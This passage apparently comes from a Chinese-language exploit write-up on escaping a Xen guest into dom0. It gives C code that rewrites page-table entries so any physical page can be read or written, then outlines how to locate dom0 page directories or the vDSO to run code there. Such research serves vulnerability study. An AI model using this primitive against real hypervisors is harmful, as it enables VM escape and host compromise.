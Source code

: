 ```
        return 0;
}
```

如此,我们能够使用 do_page_buff 函数读写任意实物理页面了:

```
void do_page_buff(unsigned long mfn, char *buff, int what)
{
        set_l2_pse_flag((unsigned long) l2_entry_va);
        *(unsigned long*) l2_entry_va = (mfn << PAGE_SHIFT) | PTE_FLAG;
        unset_l2_pse_flag((unsigned long) l2_entry_va);

        if(what == DO_PAGE_READ)
        {
                memcpy(buff, l2_entry_va, PAGE_SIZE);
        }
        else if (what == DO_PAGE_WRITE)
        {
                memcpy(l2_entry_va, buff, PAGE_SIZE);
        }

        set_l2_pse_flag((unsigned long) l2_entry_va);
        *(unsigned long*) l2_entry_va = 0;
        unset_l2_pse_flag((unsigned long) l2_entry_va);
}
```

## dom0 中执行代码

好了,我们能够读写任意实物理页面了,困难的是找到一些有趣的东西。dom0 的页目录是个不错的目标,这应该让我们解决任何虚拟地址到对应的物理页的映射,那时可以写入进程内存来执行一些任意代码,或是在任意进程中发现一个有趣的页面映射(如 vDSO ;))。

由于 Xen 的内存布局,很容易找到一个像页目录的页面(xen/include/asm-x86/config.h):

```
/*
 * Memory layout:
 *  0x0000000000000000 - 0x00007fffffffffff [128TB, 2^47 bytes, PML4:0-255]
 *    Guest-defined use (see below for compatibility mode guests).
 *  0x0000800000000000 - 0xffff7fffffffffff [16EB]
 *    Inaccessible: current arch only supports 48-bit sign-extended VAs.
 *  0xffff800000000000 - 0xffff803fffffffff [256GB, 2^38 bytes, PML4:256]
 *    Read-only machine-to-phys translation table (GUEST ACCESSIBLE).
 *  0xffff804000000000 - 0xffff807fffffffff [256GB, 2^38 bytes, PML4:256]
 *    Reserved for future shared info with the guest OS (GUEST ACCESSIBLE).
 *  0xffff808000000000 - 0xffff80ffffffffff [512GB, 2^39 bytes, PML4:257]
 *    ioremap for PCI mmconfig space
 *  0xffff810000000000 - 0xffff817fffffffff [512GB, 2^39 bytes, PML4:258]
 *    Guest linear page table.
 *  0xffff818000000000 - 0xffff81ffffffffff [512GB, 2^39 bytes, PML4:259]
 *    Shadow linear page table.
 *  0xffff820000000000 - 0xffff827fffffffff [512GB, 2^39 bytes, PML4:260]
 *    Per-domain mappings (e.g., GDT, LDT).
 *  0xffff828000000000 - 0xffff82bfffffffff [256GB, 2^38 bytes, PML4:261]
 *    Machine-to-phys translation table.
 *  0xffff82c000000000 - 0xffff82cfffffffff [64GB,  2^36 bytes, PML4:261]
 *    vmap()/ioremap()/fixmap area.
 *  0xffff82d000000000 - 0xffff82d03fffffff [1GB,   2^30 bytes, PML4:261]
 *    Compatibility machine-to-phys translation table.
 *  0xffff82d040000000 - 0xffff82d07fffffff [1GB,   2^30 bytes, PML4:261]
 *    High read-only compatibility machine-to-phys translation table.
 *  0xffff82d080000000 - 0xffff82d0bfffffff [1GB,   2^30 bytes, PML4:261]
 *    Xen text, static data, bss.
#ifndef CONFIG_BIGMEM
```

[1]: https://p1.ssl.qhimg.com/t01cc39f6c4744f14d5.png
[2]: https://p1.ssl.qhimg.com/t0191f3c2792bba6bd5.png
[3]: https://p5.ssl.qhimg.com/t0192921f0ec6d29bc3.png
[4]: https://p2.ssl.qhimg.com/t019c7724c77a43882b.jpg
[5]: https://p3.ssl.qhimg.com/t01bb8352a38dc19d64.png
[6]: https://p4.ssl.qhimg.com/t01a55b8953562a62ed.png